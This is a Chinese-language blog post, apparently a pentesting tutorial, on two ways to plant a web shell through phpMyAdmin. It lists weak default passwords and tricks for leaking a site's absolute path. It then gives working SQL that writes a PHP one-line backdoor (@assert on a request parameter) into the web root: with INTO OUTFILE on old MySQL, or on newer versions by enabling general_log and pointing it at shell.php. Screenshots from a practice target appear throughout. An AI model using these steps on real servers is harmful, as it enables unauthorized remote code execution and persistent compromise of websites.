 ```yaml
---
layout:     post
title:      phpMyAdmin拿shell的两种方法
subtitle:   phpMyAdmin拿shell
date:       2019-07-13
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 渗透测试
---
```

# 利用前提
## phpMyAdmin用户名和密码
如何获取phpMyAdmin用户名和密码：
* 弱口令
  * root/root
  * root/空密码
  * root/123456
  * ....
* phpMyAdmin爆破工具
* 信息泄露(配置文件等)
* sql注入
* 等等
## 网站绝对路径
如何获取网站的绝对路径呢？
* 单引号爆绝对路径
  * xx.asp?id=1'
* 错误参数值爆绝对路径
  * xx.asp?id=-1
* 搜索引擎搜索绝对路径
  * site:xxx.com error
  * site:xxx.com warning
  * site:xxx.com fatal error
* 测试文件获取绝对路径
  * phpinfo.php
  * test.php
  * ceshi.php
  * info.php
  * php_info.php
* 等等
# 拿shell的两种方法
## 低版本Mysql
Mysql低于5.0，可以直接通过outfile写入：
```
SELECT "<?php @assert($_REQUEST["admin"]);?>" INTO OUTFILE  '<网站绝对路径>'
```

## 高版本Mysql
通过以下SQL语句可以查询secure_file_priv（secure-file-priv是全局变量，指定文件夹作为导出文件存放的地方，这个值是只读的）是否为null：
```
show variables like '%secure%'
```
从下图可以看到我的靶机secure_file_priv值为null：
![图片](../../../../img/phpmyadmin_shell1.png)
通过以下SQL语句可以查询到日志保存状态(ON代表开启 OFF代表关闭)和日志的保存路径：
```
show variables like '%general%'
```
从下图可以看到我的靶机是关闭日志保存的，还有日志保存的路径在哪：
![图片](../../../../img/phpmyadmin_shell2.png)
因此通过以下SQL语句修改general_log的值，开启日志保存：
```
set global general_log='on';
```
通过以下SQL语句修改日志保存的路径(general_log_file值)：
```
SET global general_log_file='<网站绝对路径>/shell.php'
```
再次执行以下SQL语句，查询是否成功更改：
```
show variables like '%general%'
```
从下图可以看到，成功通过SQL语句修改成功了：
![图片](../../../../img/phpmyadmin_shell3.png)
执行以下SQL语句，以下SQL语句将会被写入到日志文件(shell.php)中：
```
SELECT '<?php @assert($_REQUEST["admin"]);?>';
```
从下图可以看到一句话木马写入了日志文件中：
![图片](../../../../img/phpmyadmin_shell4.png)
通过URL访问，成功被执行了！
![图片](../../../../img/phpmyadmin_shell5.png)

